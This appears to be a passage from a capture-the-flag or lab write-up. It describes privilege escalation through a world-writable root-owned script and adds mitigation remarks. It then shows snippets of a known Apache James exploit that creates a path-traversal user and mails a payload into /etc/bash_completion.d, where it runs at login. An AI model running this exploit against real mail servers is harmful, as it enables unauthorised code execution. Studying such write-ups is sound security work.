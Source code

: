The path to privilege escalation on this system was achieved through a python script owned by the root user, but able to be written to by anyone. I was able to modify the contents of the script as a limited user and have it execute malicious code under the root user context.

This one can be very difficult to mitigate, especially if you have systems that are static and have been around for years. Every admin that touches a machine brings along their habits (for better or for worse) and it can seem near impossible to audit every single file for their permissions.

As the world of technology is pushing forward into the era of the cloud, these problems start to go away with immutable server technologies such as containers and microservices. If you get your baseline container right, then you don't need to worry as much about any system that is spawned off your base image. 

Due to the idempotent nature of these types of systems and infrastructure, any misconfigurations can be resolved (and mitigated) by consistent redeployment of known-good artifacts.

---

## Remote code execution

The first part of the script creates a new user on the mail server. The username is constructed in such a way that it maps the user's mail directory to the `/etc/bash_completion.d` directory.

```bash
<.. snip ..>
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()
< .. snip .. >
```

When the `bash_completion` file is sourced (or loaded) which usually occurs at user login, everything within the */etc/bash_completion.d* directory is also loaded.

The second part of the exploit creates a file with a custom payload into the */etc/bash_completion.d* directory by sending a mail item to the user. 

```bash
< .. snip .. >
    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
```